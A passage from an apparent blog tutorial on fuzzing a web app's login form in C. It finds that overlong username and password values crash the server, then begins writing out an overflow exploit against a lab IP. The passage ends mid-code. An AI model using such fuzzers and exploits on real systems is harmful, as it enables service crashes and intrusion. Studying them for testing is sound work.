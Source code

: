 First, it runs a loop that generates buffers from 100 to 2000 bytes, filled with the letter “A”, using the memset() function. This buffer is then incorporated into the request payload, which contains the username and password fields.
Next, the program builds the HTTP request, including the headers and other necessary components to simulate a legitimate request. It also establishes a TCP socket, allowing communication with the server. If the connection is successful, the HTTP request is sent using the send() function.

By running the fuzzer, it was possible to observe at which point in the payload the application stops responding

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Mzpmyv2566f7qW4YkWlANQ.png)

At 800 bytes in the username parameter the app crashes and drops the connection. Reloading the page in the browser, you can see that the app actually crashed.

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*26oK_ynwXOglPHioKf8Zyg.png)

Resetting the app... Now that we noticed the username input field doesn’t have any filter or sanitization, it would be interesting to test other input fields to see how they behave. Sending the payload to the password parameter:

```c
char payload[BUFFER_SIZE];
snprintf(payload, sizeof(payload), "username=admin&password=%s", buf);
```
And running our fuzzer again:

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*lYjSzLF7l3foX1299XQW1g.png)

##Building a functional exploit:
With this fuzzer, we managed to find two vulnerable parameters, which opens the door for us to code a functional exploit for this application.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>

#define SERVER_IP "192.168.5.17"
#define SERVER_PORT 8080
#define BUFFER_SIZE 4096

int main() {
    int sock;
    struct sockaddr_in server;
    char buffer[BUFFER_SIZE];
    char payload[BUFFER_SIZE];
    char request[BUFFER_SIZE];
    char buf[600];
    
    memset(buf, 'A', sizeof(buf));
    buf[599] = '\0';
    
    snprintf(payload, sizeof(payload), "username=admin&password=%s", buf);
    snprintf(request, sizeof(request),
        "POST /login HTTP/1.1\r\n"
        "Host: %s\r\n"
        "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0\r\n"
        "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\n"
        "Accept-Language: en-US,en;q=0.5\r\n"
        "Accept-Encoding: gzip, deflate\r\n"
        "Content-Type: application/x-www-form-urlencoded\r\n"
        "Content-Length: %lu\r\n"
        "Origin: http://%s\r\n"
```